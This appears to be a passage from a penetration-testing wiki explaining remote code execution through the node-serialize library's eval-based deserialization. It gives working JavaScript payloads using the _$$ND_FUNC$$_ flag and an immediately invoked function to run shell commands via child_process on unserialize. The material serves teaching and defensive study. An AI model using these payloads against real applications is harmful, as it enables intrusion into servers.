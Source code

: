 This library allows to serialise functions. Example:

```javascript
var y = {
 "rce": function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })},
}
var serialize = require('node-serialize');
var payload_serialized = serialize.serialize(y);
console.log("Serialized: \n" + payload_serialized);
```

The **serialised object** will looks like:

```bash
{"rce":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}"}
```

You can see in the example that when a function is serialized the `_$$ND_FUNC$$_` flag is appended to the serialized object.

Inside the file `node-serialize/lib/serialize.js` you can find the same flag and how the code is using it.

![](<../../.gitbook/assets/image (297).png>)

![](<../../.gitbook/assets/image (298).png>)

As you may see in the last chunk of code, **if the flag is found** `eval` is used to deserialize the function, so basically **user input if being used inside the `eval` function**.

However, **just serialising** a function **won't execute it** as it would be necessary that some part of the code is **calling `y.rce`** in our example and that's highly **unlikable**.\
Anyway, you could just **modify the serialised object** **adding some parenthesis** in order to auto execute the serialized function when the object is deserialized.\
In the next chunk of code **notice the last parenthesis** and how the `unserialize` function will automatically execute the code:

```javascript
var serialize = require('node-serialize');
var test = {"rce":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) }); }()"};
serialize.unserialize(test);
```

As it was previously indicated, this library will get the code after`_$$ND_FUNC$$_` and will **execute it** using `eval`. Therefore, in order to **auto-execute code** you can **delete the function creation** part and the last parenthesis and **just execute a JS oneliner** like in the following example:

```javascript
var serialize = require('node-serialize');
var test = '{"rce":"_$$ND_FUNC$$_require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) })"}';
serialize.unserialize(test);
```
